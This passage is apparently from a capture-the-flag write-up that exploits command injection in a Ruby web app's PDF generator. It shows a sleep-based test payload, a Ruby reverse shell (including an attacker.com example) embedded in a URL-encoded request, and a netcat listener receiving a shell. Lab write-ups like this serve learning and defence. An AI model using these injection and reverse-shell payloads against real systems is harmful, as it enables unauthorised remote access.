 Let's try it again, but instead this time using a query string in the URL (with a bogus parameter "name"), just like in the Snyk article I linked above. 

```
http://10.10.14.7:8000/index.html?name=#{'%20`sleep 10`'}
```

And this is what I saw in burp after the site performed url-encoding on it:

```
url=http%3A%2F%2F10.10.14.7%3A8000%2Findex.html%3Fname%3D%23%7B%27%2520%60sleep+10%60%27%7D
```

*Lo and behold* we get a successful page load, generating the site PDF, after about ten seconds!

:clap: Super! We already know the scripting language (Ruby), and it appears to be listening to arbitrary commands... so lets see if we can open up a reverse shell!

I searched [GTFObins to see if there was an easy ruby reverse shell](https://gtfobins.github.io/gtfobins/ruby/), and indeed there is:

```
export RHOST=attacker.com
export RPORT=12345
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

To prepare for the reverse shell, I added a `ufw` rule and set up a `netcat` listener:

```
sudo ufw allow from $RADDR to any port 4444 proto tcp
nc -lvnp 4444
```

Then I modified the ruby reverse shell above to hardcode my IP and nc listener port:

```o
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.14.7",4444);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

I replaced the `sleep 10` part of the PoC request with the above reverse shell, and proxied through burp:

```
http://10.10.14.7:8000/index.html?name=#{\%20`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.14.7",4444);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`}
```

... and proxied it through burp (again, to match the url encoding scheme):

```
url=http%3A%2F%2F10.10.14.7%3A8000%2Findex.html%3Fname%3D%23%7B%2520%60ruby+-rsocket+-e+%27exit+if+fork%3Bc%3DTCPSocket.new%28%2210.10.14.7%22%2C4444%29%3Bwhile%28cmd%3Dc.gets%29%3BIO.popen%28cmd%2C%22r%22%29%7B%7Cio%7Cc.print+io.read%7Dend%27%60%7D
```

:sunglasses: and there's our reverse shell!

```
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.189] 54294
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```
